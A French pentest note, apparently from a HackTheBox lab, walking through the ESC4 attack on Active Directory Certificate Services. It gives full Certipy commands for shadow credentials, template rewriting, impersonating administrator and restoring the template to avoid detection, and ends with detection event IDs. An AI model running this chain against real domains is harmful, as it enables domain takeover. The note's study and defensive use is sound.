

## Définition ESC4

L'attaque **ESC4** exploite des permissions de contrôle d'accès (**WriteDACL**, **WriteOwner**, ou **GenericAll**) sur un objet de modèle de certificat au sein des **Active Directory Certificate Services** (**ADCS**). Si le compte compromis possède des droits suffisants sur le modèle, il peut modifier sa configuration pour permettre une escalade de privilèges, typiquement en autorisant l'usurpation d'identité via l'option **ENROLLEE_SUPPLIES_SUBJECT**.

> [!danger] Condition
> Nécessite un accès initial sur un compte ayant des droits d'écriture (**WriteDACL**/**Owner**) sur le modèle de certificat ou sur un compte membre du groupe **Cert Publishers**.

> [!warning] Danger
> La modification de template est une action bruyante et irréversible sans sauvegarde préalable.

## Pré-requis

*   Compte utilisateur avec droits de modification sur le template ou le compte cible.
*   Le compte cible doit être membre du groupe **Cert Publishers**.
*   Accès réseau au serveur **ADCS** et au contrôleur de domaine.

> [!info] Pre-requis critique
> Le compte cible doit être membre de **Cert Publishers**.

## Vérification des droits

### PowerShell (PowerView)
```powershell
Get-DomainObjectAcl -Identity 'ca_svc' -ResolveGUIDs | ? { $_.IdentityReference -match 'ryan' -and $_.ActiveDirectoryRights -match 'WriteOwner|WriteDACL|GenericAll' }
```

### Bash (Certipy)
```bash
certipy-ad find -u 'ryan@sequel.htb' -p 'motdepasse' -dc-ip <ip_DC> --vulnerable
```

## Shadow Credentials

L'ajout d'un **KeyCredential** permet de s'authentifier comme le compte cible sans connaître son mot de passe. Voir la note liée [[Shadow Credentials]].

```bash
certipy-ad shadow auto -u 'ryan@sequel.htb' -p 'motdepasse' -account ca_svc -dc-ip <ip_DC>
```

## Authentification

```bash
certipy-ad auth -pfx ca_svc.pfx -domain sequel.htb
```

## Énumération des templates

### Bash (Certipy)
```bash
certipy-ad find -pfx ca_svc.pfx -dc-ip <ip_DC>
```

### PowerShell (Certify)
```powershell
.\Certify.exe find /vulnerable
```

## Modification de template

La modification permet de configurer le template pour autoriser l'usurpation d'identité. Voir la note liée [[ESC1]].

> [!tip] Tip
> Toujours utiliser l'option **-save-old** lors de la modification de templates.

```bash
certipy-ad template -pfx ca_svc.pfx -template DunderMifflinAuthentication -save-old
```

## Demande de certificat

Une fois le template modifié, une demande est effectuée pour le compte **administrator** en utilisant le **UPN** cible.

```bash
certipy-ad req -pfx ca_svc.pfx -ca sequel-DC01-CA -target DC01.sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb
```

## Authentification finale

Le certificat obtenu permet d'obtenir un **TGT** ou de s'authentifier via **Pass-the-Hash** ou autre méthode supportée.

```bash
certipy-ad auth -pfx administrator.pfx -domain sequel.htb
```

## Nettoyage des traces (reversion des modifications de template)

Il est impératif de restaurer la configuration originale du template pour éviter la détection et maintenir la stabilité du service ADCS.

```bash
# Restauration du template à partir de la sauvegarde générée par -save-old
certipy-ad template -pfx ca_svc.pfx -template DunderMifflinAuthentication -restore-old
```

## Analyse des logs d'événements (Event ID 4886, 4887)

L'activité ADCS génère des logs sur le serveur de certificats. Une analyse post-exploitation doit cibler :

*   **Event ID 4886** : Demande de certificat reçue par le service ADCS.
*   **Event ID 4887** : Certificat émis par le service ADCS.

Ces logs permettent d'identifier le compte ayant effectué la demande et le template utilisé.

## Détection défensive (SIEM/EDR)

La détection repose sur la surveillance des modifications d'objets dans la configuration ADCS :

*   **Surveillance des modifications (Event ID 4738/4739)** : Toute modification sur les objets sous `CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=...`.
*   **Surveillance des logs ADCS** : Alerter sur l'émission de certificats via des templates modifiés récemment.
*   **Analyse comportementale** : Détecter l'utilisation de **Certipy** ou **Certify** via des logs de processus (ex: exécution de `Certify.exe` ou `certipy-ad` sur des endpoints non autorisés).

## Récapitulatif des commandes

| Action | Commande |
| :--- | :--- |
| Enumérer droits | `Get-DomainObjectAcl -Identity 'ca_svc' -ResolveGUIDs` |
| Shadow Credential | `certipy-ad shadow auto -u 'ryan@sequel.htb' -p 'pass' -account ca_svc -dc-ip <ip>` |
| Authentification | `certipy-ad auth -pfx ca_svc.pfx -domain sequel.htb` |
| Enumérer templates | `certipy-ad find -pfx ca_svc.pfx -dc-ip <ip>` |
| Modifier template | `certipy-ad template -pfx ca_svc.pfx -template <template-name> -save-old` |
| Requête certificat | `certipy-ad req -pfx ca_svc.pfx -ca <ca-name> -target <target> -template <template> -upn administrator@domain` |
| Auth finale | `certipy-ad auth -pfx administrator.pfx -domain sequel.htb` |
| Nettoyage | `certipy-ad template -pfx ca_svc.pfx -template <template-name> -restore-old` |
```